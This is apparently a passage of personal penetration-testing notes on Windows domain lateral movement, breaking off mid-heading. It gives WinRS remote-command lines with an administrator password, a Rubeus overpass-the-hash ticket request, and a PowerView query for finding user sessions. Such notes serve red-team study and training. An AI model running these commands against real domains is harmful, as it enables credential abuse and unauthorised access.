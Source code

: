 ### **WINRS**
```powershell
winrs -remote:server1 -u:server1\administrator - p:Pass@1234 hostname
```
```powershell
winrs -r:<MACCHINA> cmd
```
### **OVERPASS THE HASH**
```powershell
rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```

### **Other Sessions Opened**
```powerview
Find-DomainUserLocation
```
![[Pasted image 20231018164427.png]]
Connect Using Win-rs
### **Copy from a machine to**